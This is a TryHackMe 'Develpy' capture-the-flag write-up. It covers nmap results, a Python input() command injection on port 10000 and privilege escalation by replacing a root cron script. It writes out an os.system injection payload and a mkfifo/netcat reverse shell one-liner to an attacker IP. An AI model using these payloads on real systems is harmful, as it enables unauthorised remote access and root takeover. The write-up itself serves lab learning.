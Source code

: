 ```yaml
---
title: THM Develpy writeup
authors: ["shivam"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/47bd9da3ef003a03478334c93013fd3a.png
tags: ["python", "crontab", "command injection"]
---
```


Hello everyone,

Today we are going to solve develpy from Tryhackme. we will see python command injection and privilege escalation with crontab.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/47bd9da3ef003a03478334c93013fd3a.png)

<!--truncate-->

## Nmap results

```c
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings:
|   GenericLines:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL:
|     Private 0days
|_    Please enther number of exploits to send??:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.91%I=7%D=9/3%Time=6132570A%P=x86_64-pc-linux-gnu%r(NU
SF:LL,48,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x20
SF:Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20")%r
SF:(GetRequest,136,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r
SF:\n\r\n\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\
SF:?:\x20Traceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\
SF:x20\"\./exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\
SF:x20num_exploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20
SF:of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string
SF:>\",\x20line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'GET'\x20
SF:is\x20not\x20defined\r\n")%r(HTTPOptions,13A,"\r\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of
SF:\x20exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20cal
SF:l\x20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in
SF:\x20<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20P
SF:lease\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)
SF:\r\n\x20\x20File\x20\"<string>\",\x20line\x201,\x20in\x20<module>\r\nNa
SF:meError:\x20name\x20'OPTIONS'\x20is\x20not\x20defined\r\n")%r(RTSPReque
SF:st,13A,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x2
SF:0Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20Tra
SF:ceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\x20\"\./e
SF:xploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\x20num_ex
SF:ploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20of\x20exp
SF:loits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\x20l
SF:ine\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'OPTIONS'\x20is\x2
SF:0not\x20defined\r\n")%r(GenericLines,13B,"\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of\x20
SF:exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20call\x2
SF:0last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in\x20
SF:<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20Pleas
SF:e\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n
SF:\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x20\x20\x20\x20\r\n\x20\
SF:x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20EOF\x20while\x20parsing\
SF:r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.32 seconds
```

---

--> i found nothing after opening port `10000` on browser but i knew that it's executing python code so let's try to connect with netcat

`nc <ip> <port>`

--> and i found this :

![](Attachments/Pastedimage20210903143044.png)

--> that means it's pinging tryhackme 2 times so we have to do something called `python command injection`

--> so i found this website for this

https://www.stackhawk.com/blog/command-injection-python/

--> and i made this payload

```bash
__import__('os').system("id")
```

--> and i got the result of id command !

![](Attachments/Pastedimage20210903143250.png)

--> so now we can get the reverse shell from this !

---

```bash
__import__('os').system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.152 4444 >/tmp/f")
```

---

## Privesc

--> i found 2 files in `/home/king` `root.sh` and `run.sh` so i think there should be some cronjob running in the backend so i checked `/etc/crontab` and found 3 cronjobs

![](Attachments/Pastedimage20210904035052.png)

--> then i executed `pspy` and found that `root.sh` is running as root every 1 min

--> but we don't have permissions to write on that file

--> so i deleted `root.sh` file because it's in our home directory so we can delete it and after i addded reverse shell in that file and gav e `777` permission to execute it !

--> now just start listner on netcat

--> and after 1 minute i got root !

![](Attachments/Pastedimage20210904035326.png)
